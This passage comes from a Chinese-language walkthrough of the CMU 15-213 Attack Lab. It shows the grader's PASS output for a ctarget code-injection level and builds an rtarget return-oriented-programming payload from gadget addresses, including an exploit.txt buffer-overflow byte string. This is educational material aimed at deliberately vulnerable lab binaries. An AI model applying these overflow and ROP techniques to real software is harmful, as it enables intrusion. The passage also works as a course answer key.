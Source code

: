 - 执行完 `getbuf()` 的 `retq` 指令后，栈顶 `R[rsp]` 位于 `0x5561dca8` 处。
- 执行三次 `pushq` 指令后，栈顶位于 `0x5561dc90` 处。
- 若指令位于栈内，执行时会发生 Segmentation Fault。

最终得以下输出：

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:6A 00 48 BF 35 39 62 39 39 37 66 61 57 48 89 E7 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00
```

# `rtarget`<a name="rtarget"></a>

## 第四关

先用 `objdump -d` 获得 `rtarget` 的编码：

```shell
$ objdump -d -x86-asm-syntax=intel rtarget > rtarget.d
```

在 `start_farm` 与 `mid_farm` 之间（可存入 `half_farm.d` 以便检索），编码 `0xc3` 共出现 13 次 —— 可用指令只能取自这 13 处。

`cookie` 的编码几乎不可能出现在 `half_farm.d` 内，故不能像[第二关](#第二关)那样用 `mov` 直接移入寄存器，而必须借 `getbuf()` 植入栈内，并借 `pop` 指令取出。因此，实现 `touch2(cookie)` 的最简单的方案为

```nasm
; M[R[rsp]] = 0x59b997fa, which is my cookie
pop rdi ; 5f (90)*
; M[R[rsp]] = 0x4017ec, which is the address of touch2()
ret     ; c3
```

但 `5f (90)* c3` 并没有出现在 `half_farm.d` 内，故需借其他寄存器过渡：

```nasm
pop rax      ; 58 (90)* c3
mov rdi, rax ; 48 89 c7 (90)* c3
ret          ; c3
```

在 `half_farm.d` 内检索得：

- `58 90 c3` 在 `0x4019ab` 与 `0x4019cc` 各出现一次。
- `48 89 c7 c3` 在 `0x4019a2` 出现一次，`48 89 c7 90 c3` 在 `0x4019c5` 出现一次。

分别二选一，填入 `exploit.txt` 的适当位置：

```c
/* exploit.txt */
/* buf[00, 08) */ 90 90 90 90 90 90 90 90
/* buf[08, 16) */ 90 90 90 90 90 90 90 90
/* buf[16, 24) */ 90 90 90 90 90 90 90 90
/* buf[24, 32) */ 90 90 90 90 90 90 90 90
/* buf[32, 40) */ 90 90 90 90 90 90 90 90
/* buf[40, 48) */ ab 19 40 00 00 00 00 00 /* pop */
/* buf[48, 56) */ fa 97 b9 59 00 00 00 00 /* cookie */
/* buf[56, 64) */ a2 19 40 00 00 00 00 00 /* mov */
/* buf[64, 72) */ ec 17 40 00 00 00 00 00 /* touch2 */
```
